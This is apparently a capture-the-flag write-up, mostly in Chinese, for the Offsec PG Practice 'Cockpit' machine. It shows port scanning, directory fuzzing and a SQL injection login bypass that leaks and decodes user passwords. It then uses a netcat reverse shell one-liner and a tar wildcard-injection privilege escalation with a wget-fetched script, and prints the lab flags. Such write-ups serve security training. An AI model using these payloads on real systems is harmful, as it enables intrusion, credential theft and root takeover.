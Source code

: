 ###### tags: `Offsec` `PG Practice` `Intermediate` `Linux`

# Cockpit
```
┌──(kali㉿kali)-[~/pgplay]
└─$ rustscan -a 192.168.227.10 -u 5000 -t 8000 --scripts -- -n -Pn -sVC

Open 192.168.227.10:22
Open 192.168.227.10:80
Open 192.168.227.10:9090

PORT     STATE SERVICE         REASON  VERSION
22/tcp   open  ssh             syn-ack OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http            syn-ack Apache httpd 2.4.41 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: blaze
9090/tcp open  ssl/zeus-admin? syn-ack
| fingerprint-strings: 
|   GetRequest, HTTPOptions: 
|     HTTP/1.1 400 Bad request
|     Content-Type: text/html; charset=utf8
|     Transfer-Encoding: chunked
|     X-DNS-Prefetch-Control: off
|     Referrer-Policy: no-referrer
|     X-Content-Type-Options: nosniff
```

buster
```
┌──(kali㉿kali)-[~/pgplay]
└─$ ffuf -u http://192.168.227.10/FUZZ.php -w /home/kali/SecLists/Discovery/Web-Content/common.txt

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://192.168.227.10/FUZZ.php
 :: Wordlist         : FUZZ: /home/kali/SecLists/Discovery/Web-Content/common.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

.htaccess               [Status: 403, Size: 279, Words: 20, Lines: 10, Duration: 108ms]
.hta                    [Status: 403, Size: 279, Words: 20, Lines: 10, Duration: 126ms]
.htpasswd               [Status: 403, Size: 279, Words: 20, Lines: 10, Duration: 133ms]
logout                  [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 86ms]
login                   [Status: 200, Size: 769, Words: 69, Lines: 29, Duration: 87ms]
:: Progress: [4727/4727] :: Job [1/1] :: 456 req/sec :: Duration: [0:00:09] :: Errors: 0 ::
```

前往`http://192.168.227.10/login.php`，利用[MySQL-SQLi-Login-Bypass](https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/Databases/MySQL-SQLi-Login-Bypass.fuzzdb.txt?source=post_page-----c95930e9523d--------------------------------)測試看能不能進來
```
username: admin'OR '' = '
password: #隨便

Username     Password
james        Y2FudHRvdWNoaGh0aGlzc0A0NTUxNTI=
cameron      dGhpc3NjYW50dGJldG91Y2hlZGRANDU1MTUy
```

利用[base64 decode](https://www.base64decode.org/)可以得james的密碼為`canttouchhhthiss@455152`
登入`https://192.168.227.10:9090`，點左下`Terminal`
```
┌──(kali㉿kali)-[~/pgplay]
└─$ rlwrap -cAr nc -nvlp9001

james@blaze:~$ rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.45.195 9001 >/tmp/f
```

在`/home/james`可得local.txt
```
python3 -c 'import pty; pty.spawn("/bin/bash")'
james@blaze:~$ cat local.txt
370e275bddb3cd65fbb4b00cabd0e4e6
```

查看`sudo -l`
```
james@blaze:/tmp$ sudo -l
Matching Defaults entries for james on blaze:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on blaze:
    (ALL) NOPASSWD: /usr/bin/tar -czvf /tmp/backup.tar.gz *
```

可以參考之前的[Wildcard Injection](https://medium.com/@silver-garcia/how-to-abuse-tar-wildcards-for-privilege-escalation-tar-wildcard-injection-612a6eac0807)或[Linux Privilege Escalation: Wildcards with tar](https://medium.com/@polygonben/linux-privilege-escalation-wildcards-with-tar-f79ab9e407fa)
```
# privesc.sh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.45.195 80 >/tmp/f

┌──(kali㉿kali)-[~/pgplay]
└─$ rlwrap -cAr nc -nvlp80

james@blaze:~$ echo  "" > '--checkpoint=1'
james@blaze:~$ echo  "" > '--checkpoint-action=exec=sh privesc.sh'
james@blaze:~$ wget 192.168.45.195:8000/privesc.sh
james@blaze:~$ chmod +x privesc.sh
james@blaze:~$ sudo /usr/bin/tar -czvf /tmp/backup.tar.gz *
```

等反彈得root，可到/root得proof.txt
```
# python3 -c 'import pty; pty.spawn("/bin/bash")'
root@blaze:~# cat proof.txt
fd3d8af15eafca699b2c4e6bf2c4b06f
```